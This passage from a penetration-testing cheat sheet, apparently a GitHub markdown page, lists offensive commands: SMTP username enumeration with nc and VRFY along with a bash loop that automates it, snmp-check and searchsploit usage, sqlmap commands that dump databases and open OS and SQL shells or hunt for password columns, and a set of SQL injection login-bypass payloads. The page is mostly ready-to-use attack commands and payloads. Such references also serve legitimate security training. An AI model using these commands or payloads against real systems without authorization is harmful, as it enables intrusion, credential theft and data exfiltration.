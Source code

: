 - SSH JumpProxys:   
  `on kali VM:`  
  `# cat ~/.ssh/config`  
  `Host remotehost`  
  `  User remoteuser`  
  `  IdentityFile ~/.ssh/id_rsa`   
  `  ProxyJump user@jumphost.com`   
  Then use with:   
  `# ssh remotehost`   

## SMTP
- check if user exists:  
  `nc -nv <ip address> 25`  
  `VRFY <username>`  
  automate with bash:  
  `for user in $(cat users.txt); do echo VRFY $user | nc -nv -w 1 192.168.100.100 25 2>/dev/null | grep ^"250";done` 

## SNMP
- `snmp-check 10.10.10.10`  

## Exploits / Searchsploit
- Update Searchsploit
  `searchsploit -u`  
- Search exploit  
  `searchsploit $multiple $search $terms` 

## SQL Injection
SQLMap
- Use saved request from burp: (-p is parameter, can be removed if you add * to the param in the request file)  
  `sqlmap -r request.txt -p objectid --risk 3 --level 5` 
- SQLMap Crawl:  
  `sqlmap -u http://10.10.10.10 --crawl=1`
- SQLMap Dump DB:  
  `sqlmap -u http://10.10.10.10 --dbms=mysql --dump` 
- SQLMap Shell:  
  `sqlmap -u http://10.10.10.10 --dbms=mysql --os-shell` 
- SQL Shell through UNION based SQL Injection in "TextBoxUsername" field:  
  `sqlmap -r request.txt -p TextBoxUsername --sql-shell --technique=U`  
- Search for columns with the name password   
  `python sqlmap.py -u "http://192.168.1.1/mypath/mypoorlywrittenapp.asp?SessionID=" --time-sec=1 --search -C 'password'`  

Bypasses  
  `' or 1=1;#`  (MySQL/MariaDB)
  `' or 1=1 LIMIT 1;#`  (MySQL/MariaDB) --> If e.g. login expects only one entry in returned query
  `' or 1=1 LIMIT 1 --`  
  `' or 1=1 LIMIT 1 -- -`  
  `' or 1=1 LIMIT 1#`  
  `' or 1#`  
  `' or 1=1 --`  
  `' or 1=1 -- -`  
